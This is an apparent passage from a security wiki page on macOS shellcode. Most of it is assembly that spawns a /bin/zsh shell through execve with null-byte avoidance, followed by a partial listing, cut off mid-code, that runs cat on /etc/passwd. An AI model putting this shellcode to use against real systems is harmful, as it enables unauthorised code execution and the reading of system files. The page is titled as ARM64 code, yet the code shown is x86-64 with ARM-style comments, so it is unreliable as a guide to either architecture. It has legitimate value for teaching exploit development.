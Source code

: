Taken from [**here**](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/shell.s) and explained.

{% tabs %}
{% tab title="with adr" %}
```armasm
bits 64
global _main
_main:
    call    r_cmd64
    db '/bin/zsh', 0
r_cmd64:                      ; the call placed a pointer to db (argv[2])
    pop     rdi               ; arg1 from the stack placed by the call to l_cmd64
    xor     rdx, rdx          ; store null arg3
    push    59                ; put 59 on the stack (execve syscall)
    pop     rax               ; pop it to RAX
    bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall
```
{% endtab %}

{% tab title="with stack" %}
```armasm
bits 64
global _main

_main:
    xor     rdx, rdx          ; zero our RDX
    push    rdx               ; push NULL string terminator
    mov     rbx, '/bin/zsh'   ; move the path into RBX
    push    rbx               ; push the path, to the stack
    mov     rdi, rsp          ; store the stack pointer in RDI (arg1)
    push    59                ; put 59 on the stack (execve syscall)
    pop     rax               ; pop it to RAX
    bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall
```
{% endtab %}
{% endtabs %}

#### Read with cat

The goal is to execute `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, so the second argument (x1) is an array of params (which in memory these means a stack of the addresses).

```armasm
bits 64
section .text
global _main

_main:
    ; Prepare the arguments for the execve syscall
    sub rsp, 40         ; Allocate space on the stack similar to `sub sp, sp, #48`

    lea rdi, [rel cat_path]   ; rdi will hold the address of "/bin/cat"
    lea rsi, [rel passwd_path] ; rsi will hold the address of "/etc/passwd"
    
    ; Create inside the stack the array of args: ["/bin/cat", "/etc/passwd"]
    push rsi   ; Add "/etc/passwd" to the stack (arg0)
    push rdi   ; Add "/bin/cat" to the stack (arg1)
    
    ; Set in the 2nd argument of exec the addr of the array
    mov rsi, rsp    ; argv=rsp - store RSP's value in RSI

    xor rdx, rdx    ; Clear rdx to hold NULL (no environment variables)
    
```